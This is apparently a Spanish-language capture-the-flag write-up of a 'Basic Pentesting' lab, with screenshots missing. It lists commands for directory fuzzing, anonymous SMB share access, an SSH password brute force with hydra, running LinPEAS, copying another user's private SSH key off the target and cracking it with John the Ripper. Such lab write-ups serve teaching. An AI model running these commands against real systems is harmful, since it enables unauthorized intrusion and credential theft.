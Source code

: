 # Basic Pentesting

## NMAP

![alt text](image.png)


Encontramos un apache(8080) y un smb (445)
![alt text](image-1.png)

![alt text](image-2.png)

## Fuzzing

    gobuster dir -u http://10.10.254.164/ -w Desktop/common.txt -x php 

![alt text](image-3.png)

Encontramos 2 archivos
![alt text](image-4.png)

Podemos ver que los desarrolladores se hablan por aqui
![alt text](image-5.png)

## SMB

Realizamos una busqueda de recursos compartidos.

    smbmap -H 10.10.148.28  

![alt text](image-6.png)

Listamos Anonymous

    smbmap -H 10.10.148.28 -r anonymous

![alt text](image-7.png)

Nos conectamos como Anonymous y descargamos el fichero. 

    smbclient //10.10.254.164/anonymous -N

    smb: \> get staff.txt

![alt text](image-10.png)

Dentro encontramos los nombres de usuario.
![alt text](image-11.png)

## Fuerza bruta

    hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.254.164

![alt text](image-12.png)

## SSH

Entramos con el usuario y contraseñas extraidos
![alt text](image-13.png)

## LinPEAS

En caso de no tenerlo, clonamos el repositorio

    git clone https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Pasamos LinPEAS a la máquina

    scp linpeas.sh jan@10.10.254.164:/tmp

![alt text](image-14.png)

Le damos permisos y lo ejecutamos

    chmod +x linpeas.sh

    ./linpeas.sh

Encontramos la clave SSH
![alt text](image-15.png)

La pasamos a nuestro ordenador 

    scp jan@10.10.254.164:/home/kay/.ssh/id_rsa /home/kali/Desktop

![alt text](image-16.png)

Pasamos el archivo a txt usando un script
![alt text](image-17.png)

Lo rompemos usando **JohnTheRipper**
![alt text](image-18.png)

## Clave final

Entramos con la clave
![alt text](image-19.png)

Aqui encontraremos la contraseña final
![alt text](image-20.png)